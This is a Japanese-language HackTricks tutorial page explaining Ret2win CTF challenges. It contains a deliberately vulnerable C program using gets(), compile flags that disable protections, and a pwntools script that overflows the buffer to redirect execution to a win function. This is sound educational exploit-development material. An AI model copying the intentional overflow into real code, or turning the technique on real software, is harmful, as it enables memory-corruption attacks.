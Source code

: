 # Ret2win

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

**Ret2win** チャレンジは、特に **バイナリエクスプロイト** を含むタスクにおいて、**Capture The Flag (CTF)** コンペティションで人気のあるカテゴリーです。目的は、特定の未呼び出しの関数を実行するために、与えられたバイナリ内の脆弱性を悪用することです。この関数は通常、`win`、`flag` などの名前が付けられています。この関数が実行されると、通常はフラグや成功メッセージが出力されます。チャレンジは通常、スタック上の **リターンアドレス** を上書きして、実行フローを目的の関数に転送することを含みます。以下は、例を交えた詳細な説明です。

### Cの例

脆弱性を持つシンプルなCプログラムと、呼び出すことを意図している `win` 関数を考えてみましょう:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
このプログラムをスタック保護なしで、**ASLR** を無効にしてコンパイルするには、次のコマンドを使用できます：
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: プログラムを32ビットバイナリとしてコンパイルします（これはオプションですが、CTFチャレンジでは一般的です）。
* `-fno-stack-protector`: スタックオーバーフローに対する保護を無効にします。
* `-z execstack`: スタック上のコードの実行を許可します。
* `-no-pie`: アドレスが変わらないようにPosition Independent Executableを無効にします。
* `-o vulnerable`: 出力ファイルの名前を`vulnerable`にします。

### Python Exploit using Pwntools

エクスプロイトには、エクスプロイトを書くための強力なCTFフレームワークである**pwntools**を使用します。エクスプロイトスクリプトは、バッファをオーバーフローさせ、`win`関数のアドレスでリターンアドレスを上書きするペイロードを作成します。
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
`win`関数のアドレスを見つけるには、**gdb**、**objdump**、またはバイナリファイルを検査できる他のツールを使用できます。例えば、`objdump`を使用して、次のようにできます:
```sh
objdump -d vulnerable | grep win
```
このコマンドは、`win`関数のアセンブリを表示し、その開始アドレスを含みます。&#x20;

Pythonスクリプトは、`vulnerable_function`によって処理されると、バッファがオーバーフローし、スタック上のリターンアドレスが`win`のアドレスで上書きされるように慎重に作成されたメッセージを送信します。`vulnerable_function`が戻ると、`main`に戻るのではなく、`win`にジャンプし、メッセージが表示されます。

## 保護

* [**PIE**](../common-binary-protections-and-bypasses/pie/) **は無効にするべきです**。そうしないと、アドレスが実行ごとに信頼できなくなり、関数が格納されるアドレスが常に同じではなくなり、`win`関数がどこにロードされているかを把握するために何らかのリークが必要になります。オーバーフローを引き起こす関数が`read`やそれに類似するものである場合、リターンアドレスを`win`関数に変更するために1バイトまたは2バイトの**部分上書き**を行うことができます。ASLRの動作のため、最後の3つの16進数ニブルはランダム化されないため、正しいリターンアドレスを取得する確率は**1/16**（1ニブル）です。
* [**スタックカナリア**](../common-binary-protections-and-bypasses/stack-canaries/)も無効にするべきです。そうしないと、侵害されたEIPリターンアドレスは決して追跡されません。

## その他の例と参考文献

* [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
* [https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html](https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html)
* 32ビット、ASLRなし
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html)
* ASLRありの64ビット、バイナリアドレスのリークあり
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html)
* 64ビット、ASLRなし
* [https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html)
* 32ビット、ASLRなし、ダブル小オーバーフロー、最初にスタックをオーバーフローさせ、2回目のオーバーフローのサイズを拡大
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32ビット、relro、カナリアなし、nx、pieなし、`fflush`のアドレスを`win`関数（ret2win）で上書きするフォーマット文字列
* [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
* 64ビット、relro、カナリアなし、nx、pie。`win`関数（ret2win）を呼び出すための部分上書き

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
